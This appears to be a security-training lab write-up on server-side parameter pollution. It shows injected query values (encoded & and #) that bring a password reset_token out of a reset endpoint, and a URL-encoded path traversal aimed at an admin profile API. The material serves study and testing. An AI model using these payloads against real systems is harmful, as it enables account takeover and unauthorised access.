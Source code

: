 __If you're able to override the original parameter, you may be able to conduct an exploit. For example, you could add `name=administrator` to the request. This may enable you to log in as the administrator user.__ 

### Lab: Exploiting server-side parameter pollution in a query string
Let's say there's a reset password endpoint:
```
POST /forgot-password
csrf=D14LzFHHUPJ9Dhxs1wUXAFuZhHymOd1P&username=administrator
```
Try to add another param to body, e.g.:
`username=administrator%26ff=44`
we get back a response:
`{"error": "Parameter is not supported."}`
Then we try to truncate the body:
`username=administrator%23`
And we get back a response:
`"error": "Field not specified."`
Which suggests that it expects another body param, called `"field"`, so we add it:
`username=administrator%26field=33%23`
And we get a response:
`{"type":"ClientError","code":400,"error":"Invalid field."}`
Here we can bruteforce "field" to get something other than invalid field
Later we find out that we can set `field=email` or `field=username` or `field=reset_token`
And as it turns out, if we do that, it'll return us the value of the `reset_token` from the database in the response:
`{"result":"stdow0449ahxbzaruxv6qdi826mkqh07","type":"reset_token"}`
We can then use this token for password reset
__Do not forget to check static/resetpassword.js file or other static files__

### Testing for server-side parameter pollution in REST paths
Consider an application that enables you to edit user profiles based on their username. Requests are sent to the following endpoint:
```
GET /edit_profile.php?name=peter
```
 This results in the following server-side request:
```
GET /api/private/users/peter
```
An attacker may be able to manipulate server-side URL path parameters to exploit the API. To test for this vulnerability, add path traversal sequences to modify parameters and observe how the application responds.

You could submit URL-encoded peter/../admin as the value of the name parameter:
```
GET /edit_profile.php?name=peter%2f..%2fadmin
```
This may result in the following server-side request:
```
GET /api/private/users/peter/../admin
```
If the server-side client or back-end API normalize this path, it may be resolved to `/api/private/users/admin`. 
